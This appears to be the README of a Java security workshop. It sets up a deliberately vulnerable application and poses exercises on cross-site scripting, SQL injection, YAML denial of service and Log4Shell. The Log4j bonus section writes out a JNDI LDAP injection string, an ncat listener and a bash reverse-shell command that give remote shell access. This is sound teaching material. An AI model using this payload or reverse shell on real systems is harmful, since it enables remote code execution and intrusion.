 # DevNexus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up --build
    ```
- Run on your local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

### Login
- Username: `admin`
- Password: `foobar`

## Assignment 1
### Cross-site scripting

You can click on the username on the search page to show you more details.
This page is vulnerable to a cross-site scripting attack.
![DirectLink1](image/directlink.png)
![DirectLink2](image/directlink2.png)

### 1a Try to create an alert loading the page
- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/adduser/hint3.md)
- [Hint 4](hints/adduser/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/adduser/hint5.md)
- [Hint 6](hints/adduser/hint6.md)
- [Hint 7](hints/adduser/hint7.md)



## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance, `Super%` will give you the result for **Superman**
Using the search term `%man`

![Search](image/search.png)

### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Click on `import` to import new users using a YAML file.
![import](image/import.png)
![yaml](image/yaml.png)

### 3a Upload 2 new users using a YAML file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)



## Assignment 4 (Bonus assignment)
### Log4j

For this exercise, you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands.

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username.

### 4b startup the evil LDAP server
From the root of the project, do the following:

```
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch Netcat listening to port 9001
```
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create a serialized java payload containing a gadget chain from the outdated Apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your Docker container, connect to the LDAP server on your local machine

Use below as the username with any given password 
```
${jndi:ldap://host.docker.internal:9999/Commons}
```



If everything works out, you just executed a reverse shell command to port 9001.
Because your Netcat is listening to this, you now have shell access to that machine. The terminal you started Netcat in should now look similar to this.

![ncat](image/ncat.png)

Play around as you now have remote access to this machine by leveraging a remote code execution.







